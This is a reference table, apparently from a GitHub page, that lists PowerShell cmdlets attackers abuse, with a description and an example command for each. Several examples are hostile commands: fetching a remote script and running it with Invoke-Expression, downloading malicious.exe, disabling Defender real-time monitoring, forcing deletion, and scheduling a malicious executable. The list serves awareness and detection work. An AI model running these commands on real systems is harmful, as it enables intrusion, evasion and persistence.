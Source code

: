# Dangerous Inbuilt PowerShell Cmdlets

| **Cmdlet**                 | **Description**                                                      | **Example**                                                                 |
|---------------------------|----------------------------------------------------------------------|----------------------------------------------------------------------------|
| **`Invoke-Expression` (iex)** | Executes a string as a PowerShell command.                           | `iex $command`                                                              |
| **`Start-Process`**      | Launches a new process.                                            | `Start-Process "C:\path\to\malicious.exe"`                               |
| **`Invoke-WebRequest`**  | Sends HTTP and HTTPS requests.                                      | `Invoke-WebRequest -Uri "http://example.com/malicious.exe" -OutFile "C:\path\to\malicious.exe"` |
| **`Invoke-RestMethod`**  | Sends HTTP and HTTPS requests and processes the response.          | `Invoke-RestMethod -Uri "http://example.com/malicious.ps1" | Invoke-Expression` |
| **`New-Object`**         | Creates an instance of a .NET Framework or COM object.              | `$webClient = New-Object System.Net.WebClient`                            |
| **`Get-Content`**        | Retrieves the content of a file or other item.                      | `Get-Content "C:\path\to\malicious.ps1" | Invoke-Expression`              |
| **`Set-ExecutionPolicy`**| Changes the user preference for the PowerShell script execution policy. | `Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser`    |
| **`Add-Type`**           | Adds a .NET Framework type to a PowerShell session.                  | `Add-Type -TypeDefinition $typeDefinition`                               |
| **`Get-Process`**        | Retrieves a list of processes running on the local machine.        | `Get-Process | Where-Object { $_.Name -eq "targetProcess" }`                 |
| **`Stop-Process`**      | Stops a running process.                                            | `Stop-Process -Name "maliciousProcess"`                                   |
| **`Remove-Item`**        | Deletes files or folders.                                           | `Remove-Item -Path "C:\path\to\file.txt" -Recurse -Force`                 |
| **`Set-MpPreference`**   | Configures Windows Defender preferences.                           | `Set-MpPreference -DisableRealtimeMonitoring $true`                       |
| **`Get-EventLog`**      | Retrieves entries from event logs.                                  | `Get-EventLog -LogName Security -Newest 10`                              |
| **`Export-Csv`**         | Exports data to a CSV file.                                         | `Get-Process | Export-Csv -Path "C:\path\to\processes.csv"`                  |
| **`Get-EventSubscriber`**| Retrieves event subscribers.                                        | `Get-EventSubscriber`                                                     |
| **`New-PSDrive`**        | Creates a new PowerShell drive.                                    | `New-PSDrive -Name "RemoteDrive" -PSProvider FileSystem -Root "\\remote\share"` |
| **`Get-CimInstance`**    | Retrieves CIM (Common Information Model) instances.                 | `Get-CimInstance -ClassName Win32_OperatingSystem`                        |
| **`Get-ADUser`**        | Retrieves Active Directory user accounts.                           | `Get-ADUser -Filter * | Select-Object -Property Name,SamAccountName`      |
| **`Get-WmiObject`**    | Retrieves management information from WMI (Windows Management Instrumentation). | `Get-WmiObject -Class Win32_ComputerSystem`                              |
| **`New-ScheduledTask`** | Creates a new scheduled task.                                      | `New-ScheduledTask -Action (New-ScheduledTaskAction -Execute "C:\path\to\malicious.exe") -Trigger (New-ScheduledTaskTrigger -Daily -At 3am)` |

